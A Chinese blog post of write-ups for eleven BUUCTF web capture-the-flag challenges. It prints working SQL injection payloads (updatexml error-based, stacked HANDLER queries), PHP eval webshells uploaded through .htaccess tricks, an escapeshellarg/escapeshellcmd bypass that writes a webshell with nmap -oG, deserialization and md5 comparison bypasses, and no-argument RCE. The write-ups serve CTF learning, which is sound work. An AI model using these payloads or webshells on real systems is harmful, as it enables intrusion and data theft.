<!--yml
category: 未分类
date: 2022-04-26 14:50:05
-->

# BUUCTF解题web十一道(03)_Sprint#51264的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_45837896/article/details/117462101](https://blog.csdn.net/qq_45837896/article/details/117462101)

# [极客大挑战 2019]HardSQL

看这个标题着实心里一紧，完了，写不出来了？

又是同一系列，这次看看有什么新挑战

输入万能密码


出现这个，应该是敏感字符过滤，然后试了几次，发现`+,=,and,<,>,空格,tab,换行`都被过滤

`单引号`

是，有个闭合错误，但是这样不能用联合注入和堆叠注入，没有空格可以用，只能考虑报错注入

> 好家伙报错注入忘记很多，再看一遍

报错注入常见函数:
`updatexml()`,`extractvalue`,`floor()`

*   `floor(rand(0)*2)`产生的数为`0，1，1，0，1，1`，然后结合`group by`函数的特性:进行集合的时候会先将每一行的数据存于一个虚表中，每次存都有查询插入更新这三种可选操作，最终造成键值重复然后报错的问题

*   `updatexml(xml_document,X_path_string,new_value)`是这个函数的正确用法，当输入与其参数格式不一样的数据的时候就会发生报错，常用的格式为`updatexml(1,conocat('~',(select database()),'~'),1)`

*   `extractvalue(xml_document,X_PATH_String)`是这个函数的正确用法，当输入与其参数格式不一样的数据的时候就会发生报错

`payload`:`username=asd&password=asd'^updatexml(1,concat('~',(select(database())),'~'),1)#`

`?username=asd&password=asd'^updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.columns)where(table_schema)like(database())),'~'),1)#`


`?username=asd&password=asd'^updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1)#`



`asd'^updatexml(1,concat('~',(select(group_concat(username,'~',password))from(H4rDsq1)),'~'),1)#`


发现flag已经出来了但是不完整
`asd'^updatexml(1,concat('~',(select(group_concat(left(password,30)))from(H4rDsq1)),'~'),1)#`


`asd'^updatexml(1,concat('~',(select(group_concat(right(password,30)))from(H4rDsq1)),'~'),1)#`

拼接出flag
`flag{60101a3c-f348-44c7-9029-c56ec7fe5bd5}`

**我老爷天啊，括号真的看得我眼疼，对于想多输几遍练练手但是一直输错的我极其不友好**

# [CISCN2019 华北赛区 Day2 Web1]Hack World

揉揉眼，看这个题



输了一个单引号进去，看来是个盲注啊…

输`-1'or 1=1`出来的

查询值不对出来的⬆

试了几次之后发现啊，这个又把空格给过滤了

被过滤字符:`#,updatexml,空格,/*,--+,`

不过我还发现输入`1=1`能返回正常结果

盲注盲注，这个要自己写脚本的，用二分法
这个我实在跑不出来，等我周末听大佬讲一讲，太乱了，烦

# [网鼎杯 2020 青龙组]AreUSerialz

```
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

} 
```

全部代码如上，现在开始逐段分析

```
if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

} 
```

```
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
} 
```

`get`传参，要求所有的字符`ascii`码在32到126之间，也就是所有的字符都是可打印字符

构造函数，三个变量，`op,filename,content`，初始化值，
如果`op==1`，执行写入，如果字符串内容不大于`100`，就向指定`filename`写入内容
如果`op==2`，调用`read()`函数，该函数将`filename`文件中内容读取为字符串然后打印出来

析构函数，用强比较检测`op`值，如果为z字符串`2`就强制转换为`1`·并初始化`content`，执行`process`函数

文件包含`flag.php`，这里就要传参数`op==2`然后读取其中的内容，要用到反序列化的知识

`protected`字符在反序列化的时候会有`%00*%00`字符，变为不可打印字符

php7.1+版本对属性类型不敏感，本地序列化的时候将属性改为public进行绕过即可

于是借助`php://filter`伪协议读取flag.php里的内容


向网页传`str`，得到编码

解密得flag

**反序列化**

# [GXYCTF2019]BabySQli


简洁朴素的登录框，尝试随便输入两个asd,asd

`admin` `asd`


看来是有admin这个用户的，错误显示不是很好，暴漏了用户信息

但是发现只要输错了就是`wrong user`或者`not hack me`

查看源码，没什么可疑的地方

只好从别的地方下手，参数是传到`search.php`这个页面的，看看这个页面，发现F12之后有一段
传参数不会影响，一开始看着像`base64`,但是解码之后出现乱码，
然后就想起`base64`和`base32`的区别，前者有`大小写字母`加数字`0-9`以及符号`+-/；`，而后者只有大写字母以及数字`2-7`，进行`base32`解码得



这回更像`base64`，解码

`select * from user where username = '$name'`
emm，这是告诉我们语句的格式吗，

显示位是三个

大佬们都是直接猜测字段为`id,username,password`

mysql在进行数据查询的时候会先在数据库中产生一条虚拟的数据,刷新之后会消失

如果是构造`username=0'union seect 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1`
就可以绕过,`post`传参是把两参数分别放到各自的`SQL`语句里的，所以说后面的注释符不会把密码注释掉，写题写傻了哈哈哈哈

# [MRCTF2020]你传你🐎呢

这道题相比之前的比较简单

上传1.jpg

```
GIF89a
<?php @eval($_post['x']);?> 
```

上传改`content-type`

然后再上传`.htaccess`解析`jpg`文件为`php`文件

```
SetHandler application/x-httpd-php 
```

改`content-type`，蚁剑连接`upload`目录下的文件，根目录下找`flag`

# [MRCTF2020]Ez_bypass

如题目，简单的绕过

上页面给的代码

```
I put something in F12 for you
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first 
```

先检测有没有`gg`和`id`这两个`GET`传参，如果有，进行`md5`值加密之后的比较，然后两者还不能相同，给两者赋值数组使得加密函数返回`NULL`，两个错误相等，并且给数组赋值不同，可以绕过函数
`/?gg[]=1&id[]=2`

后面检测`POST`传参`passwd`，然后进行弱比较，如果两者相同就输出`flag`，
于是乎，借助松散比较在比较`字符串`和`数字`之前要先将字符串转换为整形的特点，传值
`passwd=1234567a`从而绕过


**类型比较小套餐**

# [GYCTF2020]Blacklist

一个查询框，查的时候出敏感字符了如下

没有select，联合注入报错注入盲注都不能用，使用堆叠注入
`1';show databases;#`

`1';show tables;#`

`1';show columns from`FlagHere`;#`

下面我就没思路了，看别人的wp

> https://www.cnblogs.com/gaonuoqi/p/12398554.html

利用`handler`方法,其作用是HANDLER … OPEN语句打开一个表，使其可以使用后续HANDLER … READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭,也就是可以通过这种方法直接访问表中的内容

`1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;#`


**新的mysql查询姿势诶**

# [BUUCTF 2018]Online Tool


先代码审计

*   检测HTTP头`X-Forwarded-For`，并将其值赋给`REMOTE__ADDR`，后面要用
*   `GET`传参`host`,并使用函数`escapeshellarg()`函数对其中的单引号进行转义并将整个字符串用单引号括起来
*   `1'`->`'1'\'''`
*   然后经过`escapeshellcmd()`函数将里面的`不配对的单引号`和`反斜杠`转义
*   `'1'\'''`->`'1'\\''\'`
*   如果拼接到所给的代码里形成的命令就是⬇
*   `nmap -T5 -sT -Pn --host-timeout 2 -F '1'\\''\'`其中，1被括起来，是一个字符串，两个斜杠`\\`结合就是转义后的`\`，不再起转义作用，两个单引号`''`变为一个`空字符`，而后面的`\'`就变为转义后的单引号`'`
*   所以说它等价于`nmap -T5 -sT -Pn --host-timeout 2 -F 1\ '`

如此拼接，我们便可以利用下面的`system()`函数将一些`nmap`命令执行，`nmap`可以用参数`-oG`将结果保存到一个指定文件中，利用这一特性，我们向其中写入一句话。

payload:`''<?php @eval($_POST[x])?> -oG hack.php'`

处理后的是这样的`''\\'' \<\?php @eval\(\)\?\> -oG hack.php '\\'''`

访问`sandbox`对应的字符串为文件夹，其中的`hack.php`蚁剑连接，根目录下flag


**真绕**

# [GXYCTF2019]BabyUpload



朴素的上传界面。



上传`.htaccess`解析含有`01`字样的文件为`php`文件
`01.jpeg`后缀、MIME、文件头绕过(GIF89a)
`蚁剑连接`

**标准流程**

# [RoarCTF 2019]Easy Java


登陆页面，但是提示说是JAVA的知识

help界面是这样子的
我天，然后看大佬的博客说出现这样的就要换请求方式



这里要`POST`传`filename=WEB-INF/web,xml`,可以看到其内容，有很多`servlet和class`相关的内容，找到一个叫做
`flagcontroller`（servlet是用来处理客户端发起的HTTP响应过程的中间层）

>[事先了解WEB-INF知识](https://baike.baidu.com/item/web-inf/4476359?fr=aladdin)
访问一下`WEB-INF/classes/com/wm/ctf/FlagController.class`（其中包含了站点所有的`class`文件,包括`servlet class`和`非 servlet class`文件），要把`GET`改为`POST`

下载文件，base64解码文件中有一段代码


**边做题边学，JAVA知识增加了**

# [GXYCTF2019]禁止套娃

> 学习无参RCE知识[什么是无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#%E4%BB%80%E4%B9%88%E6%98%AF%E6%97%A0%E5%8F%82%E6%95%B0%E5%87%BD%E6%95%B0RCE)



> 引用别人说的，目录扫描到/.git/

```
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {

                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}

?> 
```

获取get参数

*   `localeconv()`函数返回一包含本地数字及货币格式信息的数组，数组第一项是`.`，可以代表当前目录

*   `current()`函数返回数组的当前单元，默认返回第一个值，结合上一个函数可以取到`.`这个值

*   `scandir()`扫面指定目录，将信息以数组形式返回

*   `dirname()`，返回路径中的目录部分，即去掉路径中的当前目录

*   `chdir()`切换当前目录到指定位置

开始:
`exp=print_r(scandir(current(localeconv())));`



**好啊，学到了！！**

**不会的题我先空下了，之后细细研究。开启下一段~**